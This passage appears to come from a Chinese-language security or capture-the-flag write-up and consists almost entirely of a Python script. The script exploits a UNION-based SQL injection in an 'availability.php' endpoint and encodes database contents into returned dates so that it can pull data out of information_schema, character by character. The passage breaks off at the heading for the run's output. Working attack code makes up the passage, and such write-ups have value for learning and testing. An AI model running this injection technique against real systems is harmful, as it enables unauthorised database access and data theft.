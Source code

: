 ``` python
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
fr = encode(fr)
start = time.time()
while True:
  payload = f'''
    ascii(SUBSTRING({field},{index}))*86400
    + ascii(SUBSTRING({field},{index+1}))*86400*128
    + {base_time}
  '''
  response = requests.get(f'{host}/availability.php?id=12345%20union%20select%201%20,{base_time},{encode(payload)},4%20{fr}&start_time=2023-01-01&end_time=2023-01-01')
  index +=2
  if response.ok:
    data = json.loads(response.text)
    d = data['events'][0]['end']
    if d == '2023-01-01':
      break
    else:
      diff = datetime.datetime.strptime(d, "%Y-%m-%d").timestamp() - base_time
      
      diff = int(diff/86400)
      first = diff % 128
      result += chr(first)

      second = int((diff - first) / 128)
      if second == 0:
        break
      result += chr(second)
      print("current:", result)
  else:
    print('error')
    break

print("result:", result)
print(f"time: {time.time() - start}s")
```

跑起來的結果：
